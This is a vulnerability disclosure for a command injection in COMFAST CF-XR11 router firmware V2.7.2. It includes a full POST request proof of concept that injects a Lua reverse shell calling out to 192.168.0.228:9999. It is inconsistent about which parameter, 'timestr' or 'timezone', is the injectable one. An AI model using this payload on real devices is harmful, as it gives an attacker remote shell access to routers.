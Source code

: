 # CVE-ID

none

# Information

**Vendor of the products:**  COMFAST

**Vendor's website:**  http://www.comfast.cn/

**Reported by:**  TTY([tianyutu00@gmail.com](tianyutu00@gmail.com)) & w4rd3n(w4rd3n.iadc@gmail.com)

**Affected products:** COMFAST CF-XR11

**Affected firmware version:** V2.7.2

**Firmware download address:** http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar

# Overview

`COMFAST CF-XR11 V2.7.2` has a command injection vulnerability detected at function `sub_4143F0`. Attackers can send `POST` request messages to `/usr/bin/webmgnt` and inject evil commands into parameter `timestr` to execute arbitrary commands by URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=ntp_timezone`.

# Product parameters

`COMFAST CF-XR11 V2.7.2` is an 1800Mbps smart MESH router. The test version(the newest version) here is `V2.7.2`.

<img src="imgs/1.png" style="zoom:67%;" />

# Vulnerability details

The vulnerability is detected at `/usr/bin/webmgnt`.

In the function `sub_4143F0`, the program uses function `blobmsg_parse` to obtain the content of parameter `timestr`, `timezone`,`zonename` ,`hostname`,`ntp_client_enabled`,`ntp_enable_server` and `ntp_servername` which are sent by `POST` request. On line 29, the attacker can complete command execution by controlling the `timezone` variable.

![](imgs/2.png)

# POC

Send the following to the URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=ntp_timezone` by `POST` request.

```
POST /cgi-bin/mbox-config?method=SET&section=ntp_timezone HTTP/1.1
Host: 192.168.0.1
Content-Length: 298
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: appliation/json
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=f200a8c0-581cfffffff8ffffff90ffffffd044-00000000
Connection: close

{"timestr":"2021-10-10 10:10:10\" && echo \"`lua -e \"require('socket');require('os');t=socket.tcp();t:connect('192.168.0.228','9999');os.execute('/bin/sh -i <&3 >&3 2>&3 &');\"`",	"timezone":"0","zonename": "0","hostname": "0","ntp_client_enabled":"0","ntp_enable_server":"0","ntp_servername":"0"}
```

# Attack Demo

After sending the POC, the malicious command will be executed and we can get the router's shell.

![](imgs/3.png)

![](imgs/4.png)

